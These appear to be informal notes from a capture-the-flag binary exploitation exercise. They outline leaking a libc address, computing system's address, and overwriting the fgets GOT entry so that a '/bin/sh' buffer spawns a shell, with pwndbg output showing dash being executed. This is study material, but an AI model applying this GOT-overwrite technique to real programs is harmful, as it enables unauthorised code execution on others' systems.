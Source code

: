 what do you think has happened and how can I investigate deeper if you do not know what is happening with my given information?




# Now I am thinking that:
Since unleakable addresses can also be overwritten

maybe I can just leak one leak able address, preserve the value, 

calculate the address of system
then use that address of system to overwrite fgets or shits around it





# Going to overwrite fgets, overwrite is possible know by testing
# Whether successfully overwritting 8 bytes of system to it is a concern as fgets take 15 characerts(?)
# [0x557785aed048] fgets@GLIBC_2.2.5 -> 0x7efe1c454ae0  // OMG IT DOES
# but why doesn't it show (system nearby)

'''
 ► 0x564bcd9a048a <edit_nickname+234>    call   fgets@plt                   <fgets@plt>
        s: 0x564bcd9a50c0 (TEAM) ◂— 0x68732f6e69622f /* '/bin/sh' */
        n: 0x10
        stream: 0x7ff1a5018a80 ◂— 0xfbad208b

'''

fgets finally gets called, lets see what happens 

```
pwndbg> ni
[Attaching after process 611903 vfork to child process 613619]
[New inferior 2 (process 613619)]
warning: Unable to find dynamic linker breakpoint function.
GDB will be unable to debug shared library initializers
and track explicitly loaded dynamic code.
[Detaching vfork parent process 611903 after child exec]
[Inferior 1 (process 611903) detached]
process 613619 is executing new program: /usr/bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "edit_nickname" in current context.
Error in re-setting breakpoint 1: No symbol "edit_nickname" in current context.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Error in re-setting breakpoint 1: No symbol "edit_nickname" in current context.
[Attaching after Thread 0x7f0666313740 (LWP 613619) vfork to child process 613620]
[New inferior 3 (process 613620)]
Error in re-setting breakpoint 1: No symbol "edit_nickname" in current context.
Error in re-setting breakpoint 1: No symbol "edit_nickname" in current context.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Error in re-setting breakpoint 1: No symbol "edit_nickname" in current context.
[Detaching vfork parent process 613619 after child exec]
[Inferior 2 (process 613619) detached]
process 613620 is executing new program: /usr/bin/dash
```
